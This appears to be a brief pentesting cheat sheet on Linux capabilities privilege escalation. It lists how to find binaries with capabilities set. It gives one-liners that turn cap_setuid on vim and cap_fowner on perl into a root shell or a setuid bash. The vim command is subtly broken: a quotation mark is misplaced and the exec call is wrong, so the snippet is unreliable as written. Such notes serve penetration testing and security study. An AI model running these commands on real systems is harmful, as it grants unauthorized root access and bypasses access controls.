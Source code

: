 # Capabilities

## Example

### 

    getcap -r / 2>/dev/null

## True Positive: cap_setuid+ep, cap_fowner+ep (This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file)

## Example:

### 

    ./vim -c ':py3 import os; os.setuid(0); os.exec("/bin/sh, "sh", "-c", "reset; exec sh")' (cap_setuid+ep)

### 

    ./perl -e 'chmod 04777, "/bin/bash";' (cap_fowner+ep)


